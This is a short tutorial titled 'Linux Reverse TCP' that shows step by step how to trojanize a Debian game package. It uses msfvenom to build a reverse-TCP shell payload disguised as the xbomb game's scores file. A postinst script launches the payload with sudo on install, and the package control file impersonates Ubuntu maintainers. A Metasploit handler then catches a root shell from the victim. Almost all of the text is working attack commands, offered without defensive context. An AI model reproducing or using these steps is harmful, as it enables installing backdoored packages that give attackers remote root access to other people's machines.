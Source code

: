 ```yaml
---
title: Linux Reverse TCP
---
```


# Linux Reverse TCP

An example to hack a 64-bit debian system using `msfvenom` on Kali Linux.

1. Download a `.deb` installation file (like `xbomb_2.2a-1_i386.deb`).

2. Extract it

   ```shell
   $ dpkg -x xbomb_2.2a-1_i386.deb workdir
   ```

3. Now, in `workdir` there are two directories `usr` and `etc`, which will be copied to the system if installed. In `usr` there is a file `game/xbomb` which is an executable file.

4. Generate the payload with `msfvenom`.

   ```shell
   $ msfvenom -a x64 --platform linux -p linux/x64/shell/reverse_tcp LHOST=192.168.15.5 LPORT=443 -b "\x00" -f elf -o ./workdir/usr/games/xbomb_scores
   ```

5. Create directory `DEBIAN` and two files `postinst` and `control`.

   ```shell
   $ mkdir workdir/DEBIAN
   $ cat > workdir/DEBIAN/postinst << END
   #!bin/sh

   sudo chmod 2755 /usr/games/xbomb_scores && sudo /usr/games/xbomb_scores &
   END
   $ cat > workdir/DEBIAN/control << END
   Package: xbomb
   Version: 2.2a-1
   Section: games
   Priority: optional
   Architecture: amd64
   Maintainer: Ubuntu MOTU Developers <ubuntu-motu@lists.ubuntu.com>
   Description: A minesweeper game for Linux
   END
   ```

6. Create new debian package.

   ```shell
   $ dpkg-deb --build workdir
   $ mv workdir.deb xbomb_2.2a-1_x64.deb
   ```

7. Open an `msfconsole`, and open a `reverse_tcp` handler.

   ```shell
   $ msfconsole
   msf > use exploit/multi/handler
   msf > set PAYLOAD linux/x64/shell/reverse_tcp
   msf > set LHOST 192.168.15.5
   msf > set LPORT 443
   msf > run
   ```

8. Put the package in the victim machine and install it.

   ```shell
   $ sudo dpkg -i xbomb_2.2a-1_x64.deb
   ```

9. Then you will see the `msfconsole` get the session for command shell, with root previlege.

